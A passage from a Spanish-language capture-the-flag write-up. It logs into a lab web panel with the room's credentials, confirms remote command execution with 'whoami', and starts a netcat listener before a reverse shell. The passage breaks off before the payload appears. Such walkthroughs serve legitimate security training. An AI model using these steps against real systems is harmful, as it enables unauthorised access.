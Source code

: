 #### Comprobación de credenciales:

  Utilizamos las potenciales credenciales para logearnos:
-  Username : `R1ckRul3s`
- Password: `Wubbalubbadubdub`

Las credenciales son correctas. Nos dan acceso a lo que parece un **panel de comandos.** Y otras seccionales (potions) a las que no tenemos acceso como `R1ckRul3s` 

#### Comprobación de  vulnerabilidad RCE

1. Ejecutamos el comando `whoami` y nos devuelve que usuarios somos. 
2. Demuestra que tenemos una vulnerabilidad de `ejecución remota de comandos` `RCE`

<p align="center">
    <img src="Imagenes/33.png" width="1000">
</p>


---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

1. Levantamos un puerto de escucha con `nectcat` en nuestra terminal por ejemplo el 5555:

```
sudo nc -nvlp 5555
```


2. Generamos un código malicioso con revershell y lo encapsulamos con `-c`  :

<p align="center">